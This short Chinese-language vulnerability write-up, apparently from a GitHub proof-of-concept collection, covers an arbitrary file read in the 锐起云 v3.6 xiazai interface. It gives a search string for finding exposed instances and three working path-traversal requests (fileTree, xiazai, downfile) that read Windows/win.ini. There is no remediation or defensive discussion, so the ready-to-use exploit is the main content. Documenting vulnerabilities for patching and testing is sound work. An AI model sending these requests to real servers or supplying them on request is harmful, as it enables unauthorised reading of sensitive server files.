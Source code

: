 # 锐起云 xiazai 任意文件读取漏洞

# 锐起云 xiazai 任意文件读取漏洞

## 漏洞描述

锐起云 xiazai 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登陆页面

![image-20231115100316838](images/image-20231115100316838.png)

验证POC

```
/dwr/hret/fileTree?filePath=../
/dwr/srecy/xiazai?filePath=../../../../../../../../../../../Windows/win.ini
/dwr/hret/downfile?fpid=../../../../../../../../../Windows/win.ini 
```

![image-20231115100630776](images/image-20231115100630776.png)

